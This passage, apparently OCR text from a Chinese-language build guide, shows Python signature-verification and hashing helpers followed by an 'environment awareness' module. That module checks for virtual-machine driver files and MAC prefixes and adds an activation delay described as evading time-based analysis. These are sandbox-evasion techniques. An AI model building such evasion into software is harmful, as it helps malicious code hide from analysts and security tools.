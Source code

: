 ```python
        public_key.verify(
            signature,
            data,
            padding.PSS(
                mgf=padding.MGF1(hashes.SHA256()),
                salt_length=padding.PSS.MAX_LENGTH
            ),
            hashes.SHA256()
        )
        return True
    except Exception:
        return False

def hash_sha256(data):
    """计算数据的 SHA256 哈希值"""
    return hashlib.sha256(str(data).encode('utf-8')).hexdigest()

```

---

### **第2步: 环境感知模块 (`env_awareness.py`)**

在执行任何操作之前，此模块会检查是否存在沙箱或虚拟机环境。这是一个简化的版本。

**`env_awareness.py`**

```python
import os
import sys
import time

class EnvironmentSentinel:
    def __init__(self, activation_delay=3):
        """
        初始化环境感知模块
        :param activation_delay: 激活延迟（秒），用于规避基于时间的分析
        """
        self.activation_delay = activation_delay
        self.is_safe = False

    def check_vm_files(self):
        """检查是否存在已知的VM相关文件"""
        vm_files = [
            "C:\\windows\\System32\\Drivers\\Vmmouse.sys",
            "C:\\windows\\System32\\Drivers\\vmhgfs.sys",
            "/usr/bin/VBoxClient"
        ]
        for f in vm_files:
            if os.path.exists(f):
                print("[SENTINEL] VM file detected:", f)
                return True
        return False

    def check_mac_address(self):
        """检查已知的VM MAC地址前缀"""
        # 此功能需要平台特定的库，此处为伪代码
        known_vm_macs = ["08:00:27", "00:05:69", "00:0c:29", "00:1c:14"]
        # mac = get_mac_address() # 伪代码
        # if any(mac.startswith(prefix) for prefix in known_vm_macs):
        #     print("[SENTINEL] VM MAC address prefix detected.")
        #     return True
        return False

```